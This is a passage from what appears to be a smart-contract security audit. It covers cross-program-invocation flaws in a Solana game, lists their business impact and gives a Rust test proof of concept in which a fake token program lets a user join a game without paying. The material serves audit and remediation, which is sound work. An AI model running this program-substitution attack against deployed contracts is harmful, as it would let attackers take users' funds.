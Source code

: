 ### Business Impact
- [x] **CPI security model failure**
- [x] **External integration unreliable**
- [x] **Platform becomes untrustworthy**
- [x] **User funds security compromised**

## 🔬 Proof of Concept

**Status**: ✅ **COMPLETE - Professional PoC Implemented**
**Location**: `/src/tests/vuln-019-cpi-security-poc.rs`
**Type**: Comprehensive CPI Security Exploitation Suite

### Professional PoC Features
- **6 Attack Vectors**: Program substitution, reentrancy, account substitution, authority manipulation, combined attacks, verification bypass
- **Economic Analysis**: $15.5M annual risk quantification with catastrophic scenarios
- **Integration Tests**: Full CPI exploitation chain demonstrations
- **Remediation Demo**: Secure CPI implementation examples

### CPI Security Exploitation
```rust
#[cfg(test)]
mod test_cpi_security_vulnerabilities {
    use super::*;

    #[test]
    fn test_fake_token_program_attack() {
        let malicious_program_id = Pubkey::new_unique();

        // Create fake token program that mimics real interface
        let fake_token_program = create_fake_token_program(malicious_program_id);

        let mut game_session = create_test_game_session(1000);

        // User tries to join with fake token program
        let ctx = Context::new(
            &program_id,
            &mut JoinUser {
                game_session,
                user: user_keypair(),
                user_token_account: user_token_account(),
                vault: game_vault(),
                token_program: fake_token_program, // ❌ Malicious program
                system_program: system_program(),
            },
            &[]
        );

        // Join succeeds with fake program
        let result = join_user_handler(ctx, "test_session".to_string(), 0);

        // Should fail but may succeed with fake token program
        if result.is_ok() {
            // User joined game but no tokens were actually transferred
            assert_eq!(get_user_balance(), 1000); // User still has tokens
            assert_eq!(get_vault_balance(), 0); // Vault got nothing

            // But user is now in the game!
            assert!(game_session.player_in_team(user_keypair().pubkey(), 0));
        }
    }

```